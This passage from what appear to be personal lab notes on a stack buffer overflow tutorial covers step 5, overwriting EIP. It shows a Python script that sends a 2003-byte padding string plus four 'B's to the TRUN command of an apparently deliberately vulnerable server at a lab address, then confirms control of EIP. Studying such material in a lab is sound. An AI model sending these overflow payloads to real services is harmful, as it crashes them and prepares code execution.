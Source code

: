 5. Overwritting the EIP 

We previously found that the offset was at 2003 bytes 

I.e. there are 2003 bytes before you get to the EIP and the EIP itself is 4 bytes long

Change our last script `2.py` to `3.py` to check if we can overwrite the EIP:

```
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

![993772918059e10034bd77d2c04db611.png](../../_resources/0c85d5c234ef418981e982d9dfb083ce.png)

Indeed able to control the EIP, which became "B" (42424242)
